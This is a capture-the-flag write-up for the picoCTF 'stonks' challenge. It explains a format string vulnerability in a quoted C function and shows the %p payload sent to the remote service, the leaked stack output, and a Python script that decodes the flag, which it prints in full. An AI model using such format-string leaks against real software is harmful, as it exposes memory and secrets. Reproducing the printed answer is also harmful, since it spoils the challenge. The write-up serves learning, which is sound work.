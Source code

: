 # stonks
## Overview
Points: 20  
Category: Binary Exploitation 

## Description
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](./vuln.c)  
`nc mercury.picoctf.net 33411`

## Hints

1. Okay, maybe I'd believe you if you find my API key.

## Solution

In the Source code, if you see carefully on `buy_stock` function, we can see this code snippet.

```c
char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);
```

what is this actually? It's called a format string vulnerabilities, what we input in that scanf will be returned to us, so If you input a specifier like `%s`, `%d`, `%x`, `%p`or `%n` it will give us a return value of the specifier.

In Binary exploitation, a format string vulnerability usually use either `%p` or `%x` to leak some address, judjing by the source code, our fleak is **UNIQUE** so each player will have a different flag.

Knowing all this information, it's time to leak the first 50 stack values using `%p` and I use python3 to print 50 of that specifier.

```tex
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Buying stonks with token:
0x844d3d00x804b0000x80489c30xf7f9cd800xffffffff0x10x844b1600xf7faa1100xf7f9cdc7(nil)0x844c1800x10x844d3b00x844d3d00x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x633432610x366134310xffcd007d0xf7fd7af80xf7faa4400xd7c723000x1(nil)0xf7e39ce90xf7fab0c00xf7f9c5c00xf7f9c0000xffcdcc480xf7e2a68d0xf7f9c5c00x8048eca0xffcdcc54(nil)0xf7fbef090x804b0000xf7f9c0000xf7f9ce200xffcdcc880xf7fc4d500xf7f9d8900xd7c723000xf7f9c0000x804b0000xffcdcc88
Portfolio as of Mon Apr 10 06:37:44 UTC 2023


1 shares of E
1 shares of TW
177 shares of LP
61 shares of SXEX
20 shares of JD
209 shares of MBUY
138 shares of AIQJ
Goodbye!
```

It's a bunch of hex, don't worry cyber chef can tell us what they mean or you can just search for `7d` as it's equal to `}`

We found this particular string to be interesing because it has `7d` at the end and a `6f636970` or `ocip`.

```6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x633432610x366134317d```

If you translate this into string, you'll found this

```ocip{FTC0l_I4_t5m_ll0m_y_y3nc42a6a41}```

See some pattern here? The flag format will always be `picoCTF{.*}` and if you see the result there, it looks like they swap the print every 4 character. What we can do is, we can separate this hex every 4 character and then print it backward or do it manual...

```
ocip -> pico
{FTC -> CTF{
0l_I -> I_l0
4_t5 -> 5t_4
m_ll -> ll_m
0m_y -> y_m0
_y3n -> n3y_
c42a -> a24c
6a41 -> 14a6
} -> }
```

I write a simple [script](./flag.py) too to do this using `[::-1]` and `unhexlify`
```python
from binascii import unhexlify

flag = b"".join(
    [
        unhexlify("6f636970")[::-1],
        unhexlify("7b465443")[::-1],
        unhexlify("306c5f49")[::-1],
        unhexlify("345f7435")[::-1],
        unhexlify("6d5f6c6c")[::-1],
        unhexlify("306d5f79")[::-1],
        unhexlify("5f79336e")[::-1],
        unhexlify("63343261")[::-1],
        unhexlify("36613431")[::-1],
        unhexlify("007d")[::-1],
    ]
).decode()

print(flag)
```

## Flag

```picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}```   
<br>
**NOTE: Every Player has a different flag!**